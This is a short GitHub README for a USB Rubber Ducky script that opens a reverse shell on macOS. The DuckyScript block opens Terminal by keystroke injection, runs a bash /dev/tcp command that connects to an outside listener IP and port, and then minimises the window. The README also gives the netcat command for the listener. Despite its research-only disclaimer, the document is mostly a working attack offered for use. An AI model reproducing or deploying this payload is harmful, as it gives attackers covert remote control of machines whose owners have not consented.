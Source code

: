 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## Setting up Listener
Listener set up command for Windows.
Run 
  nc -lvnp 87 -s 173.255.247.6
in Powershell, replacing the IP and port with relevant ones.

# DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>
